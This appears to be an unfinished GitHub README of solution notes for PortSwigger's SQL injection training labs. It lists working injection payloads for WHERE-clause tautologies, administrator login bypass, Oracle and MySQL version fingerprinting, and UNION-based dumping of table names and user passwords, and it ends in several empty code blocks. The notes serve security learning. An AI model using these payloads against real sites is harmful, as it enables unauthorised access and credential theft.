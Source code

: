 # SQL injection


 * [sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


### Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

### Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
### Lab3: SQL injection attack, querying the database type and version on Oracle

```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

### Lab4: SQL injection attack, querying the database type and version on MySQL and Microsoft

  ```sh
  order by 2#
  ```

  ```sh
  union select 1,2#
  ```

  ```sh
  union select 1,@@version#
  ```
### Lab5: SQL injection attack, listing the database contents on non-Oracle databases

  ```sh
  order by 2--
  ```
  ```sh
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
  ```sh
'+UNION+SELECT+column_name,table_name+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
  ```
  ```sh
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
  ```
### Lab: SQL injection attack, listing the database contents on Oracle
```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh

```

### 
```sh

```
```sh

```
###
```sh

```
```sh

```
